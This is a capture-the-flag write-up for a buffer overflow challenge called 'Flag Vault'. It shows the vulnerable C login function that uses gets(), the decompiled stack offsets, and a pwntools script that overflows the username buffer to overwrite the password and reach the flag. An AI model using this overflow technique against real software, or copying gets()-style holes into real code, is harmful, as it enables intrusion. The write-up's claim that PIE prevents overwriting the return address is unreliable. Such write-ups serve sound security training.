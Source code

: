 ```yaml
---
title: "Flag Vault"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: THM{REDACTED}
---
```

> No description.

---

The challenge is a simple buffer overflow challenge.

```c
void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}
```

When we can overflow the `username` buffer, and we can overwrite the password buffer (we can't overwrite the return address because of the PIE).

```c
char s1[8]; // [rsp+0h] [rbp-E0h] BYREF
__int64 v2; // [rsp+8h] [rbp-D8h]
__int64 v3; // [rsp+10h] [rbp-D0h]
__int64 v4; // [rsp+18h] [rbp-C8h]
__int64 v5; // [rsp+20h] [rbp-C0h]
__int64 v6; // [rsp+28h] [rbp-B8h]
__int64 v7; // [rsp+30h] [rbp-B0h]
__int64 v8; // [rsp+38h] [rbp-A8h]
__int64 v9; // [rsp+40h] [rbp-A0h]
__int64 v10; // [rsp+48h] [rbp-98h]
__int64 v11; // [rsp+50h] [rbp-90h]
__int64 v12; // [rsp+58h] [rbp-88h]
int v13; // [rsp+60h] [rbp-80h]
char v14[8]; // [rsp+70h] [rbp-70h] BYREF
__int64 v15; // [rsp+78h] [rbp-68h]
__int64 v16; // [rsp+80h] [rbp-60h]
__int64 v17; // [rsp+88h] [rbp-58h]
__int64 v18; // [rsp+90h] [rbp-50h]
__int64 v19; // [rsp+98h] [rbp-48h]
__int64 v20; // [rsp+A0h] [rbp-40h]
__int64 v21; // [rsp+A8h] [rbp-38h]
__int64 v22; // [rsp+B0h] [rbp-30h]
__int64 v23; // [rsp+B8h] [rbp-28h]
__int64 v24; // [rsp+C0h] [rbp-20h]
__int64 v25; // [rsp+C8h] [rbp-18h]
int v26; // [rsp+D0h] [rbp-10h]
```

We can overwrite the `v14` variable where the offset is `0x70`, so we need to fill the buffer with `0x70` bytes and then write the password.

```py
from pwn import *

binary = './pwn1'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.23.57', 1337)

r.sendlineafter(b'Username: ', flat([
    b'bytereaper'.ljust(112, b'\x00'),
    b'5up3rP4zz123Byte\x00'
]))

r.interactive()
```
